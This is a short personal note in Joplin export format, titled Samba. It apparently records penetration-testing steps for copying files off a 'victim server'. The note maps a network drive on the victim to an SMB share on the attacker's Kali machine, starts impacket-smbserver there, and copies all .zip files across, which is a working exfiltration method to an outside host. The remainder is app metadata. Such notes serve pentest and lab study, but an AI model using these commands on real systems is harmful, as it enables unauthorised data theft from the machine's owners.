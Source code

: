 Samba

On the victim server, run 

> net use Z: \\\KALIIP\\share

Then on kali, run in the folder to get the files

> impacket-smbserver share \`pwd\`

Then copy the files to be shared into the shared directory

> copy *.zip z:

id: 5e5f4817d1944d01bac395c9b67c1541
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-19T09:10:14.057Z
updated_time: 2022-01-19T09:11:52.873Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-19T09:10:14.057Z
user_updated_time: 2022-01-19T09:11:52.873Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1